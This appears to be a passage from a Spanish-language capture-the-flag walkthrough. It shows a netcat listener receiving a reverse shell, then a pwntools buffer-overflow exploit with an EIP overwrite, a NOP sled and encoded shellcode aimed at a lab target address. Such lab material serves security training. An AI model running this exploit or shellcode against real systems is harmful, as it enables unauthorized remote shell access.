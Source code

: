 Probamos a escuchar por el puerto 9090 con nc y a ejecutar el exploit:

```css
❯ nc -nlvp 9090
Listening on 0.0.0.0 9090

Connection received on 192.168.1.109 43892
id
uid=1000(macimo) gid=984(users) groups=984(users),954(docker),998(wheel)
```

perfecto, como vemos la shell nos llega correctamente, por lo que ahora si, finalmente vamos a volver a actualizar el exploit pero para que apunte a la maquina victima:

```python
#!/usr/bin/env python3

from pwn import *

def exploit():

    ip='172.17.0.2'
    port='9000'


    # Offset
    offset = 22

    # Buffer
    buffer = b"A"*offset

    # EIP
    eip = p32(0x804948b)

    # NOps
    nops = b"\x90"*32

    # Shellcode
    
    shellcode =  b""
    shellcode += b"\xda\xc8\xba\xf6\x2a\x66\x39\xd9\x74\x24\xf4"
    shellcode += b"\x5b\x2b\xc9\xb1\x12\x31\x53\x17\x83\xc3\x04"
    shellcode += b"\x03\xa5\x39\x84\xcc\x78\xe5\xbf\xcc\x29\x5a"
    shellcode += b"\x13\x79\xcf\xd5\x72\xcd\xa9\x28\xf4\xbd\x6c"
    shellcode += b"\x03\xca\x0c\x0e\x2a\x4c\x76\x66\x01\xbf\x88"
    shellcode += b"\x77\x31\xc2\x88\x54\x43\x4b\x69\x2a\x25\x1c"
    shellcode += b"\x3b\x19\x19\x9f\x32\x7c\x90\x20\x16\x16\x45"
    shellcode += b"\x0e\xe4\x8e\xf1\x7f\x25\x2c\x6b\x09\xda\xe2"
    shellcode += b"\x38\x80\xfc\xb2\xb4\x5f\x7e"

	# Payload
    payload = buffer + eip + nops + shellcode


    conectar = remote(ip, port)
    conectar.sendline(payload)
    conectar.close

if __name__ == "__main__":
    exploit()
```
